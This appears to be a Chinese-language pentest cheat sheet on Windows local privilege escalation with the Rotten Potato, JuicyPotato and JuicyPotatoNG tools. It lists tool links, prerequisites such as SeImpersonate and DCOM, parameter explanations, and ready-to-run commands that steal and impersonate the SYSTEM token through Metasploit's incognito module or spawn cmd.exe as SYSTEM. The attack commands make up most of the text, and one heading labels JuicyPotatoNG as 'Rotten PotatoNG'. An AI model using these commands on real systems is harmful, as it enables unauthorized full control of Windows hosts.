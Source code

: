 #### 烂土豆（Rotten Potato）

烂土豆不适用于 >= Windows 10 1809 和 Windows Server 2019 的版本

```
https://github.com/foxglovesec/RottenPotato

烂土豆配合MSF提权
    使用令牌窃取进行提权
    use incognito  （进入incognito模块）
    通过MSF执行烂土豆
    execute -cH -f RottenPotato.exe
    list_tokens -u  （列出令牌）
    impersonate_token "NT AUTHORITY\\SYSTEM"
```

#### 烂土豆NG（Rotten PotatoNG）

```
https://github.com/antonioCoco/JuicyPotatoNG

JuicyPotatoNG.exe -t * -p "c:\Windows\System32\cmd.exe" -a "/c whaomi > .\1.txt"

强制参数:-t createprocess call: <t> CreateProcessWithTokenW， <u> CreateProcessAsUser， <*>同时尝试
-p <program>:要启动的程序可选参数
-1 <port>: COM服务器监听端口(默认为10247)
-a <argument>:传递给程序的命令行参数(默认为NULL)
-c <CLSID>:(默认值{854A20FB-2D44-457D-992F-EF13785D2B51})
-i:交互式控制台(仅对CreateProcessAsUser有效)额外的模式
-b:暴力破解所有clsid。alert:仅用于测试。大约会产生1000个进程!
-s:寻找没有被Windows Defender防火墙过滤的合适COM端口
```

#### 多汁土豆（Juicy Potato）

```
https://github.com/ohpe/juicy-potato
http://ohpe.it/juicy-potato/CLSID/
多汁土豆适用于< Windows 10 1809 < Windows Server 2019
不需要 meterpreter shell，可以指定COM服务器侦听端口，可以选择CLSID

查看当前用户权限，是否符合要求
whoami /priv
限制条件：需要支持SeImpersonate或者SeAssignPrimaryToken权限，开启DCOM，本地支持RPC或者远程服务器支持PRC并能成功登录，能够找到可用的COM对象
    如果开启SeImpersonate权限，juicypotato的参数可以使用-t t
    如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u
使用详情见https://github.com/ohpe/juicy-potato
```

#### 多汁土豆NG（Juicy PotatoNG）

```
https://github.com/antonioCoco/JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "C:\windows\system32\cmd.exe" -a "/c whoami > C:\JuicyPotatoNG.txt"
```
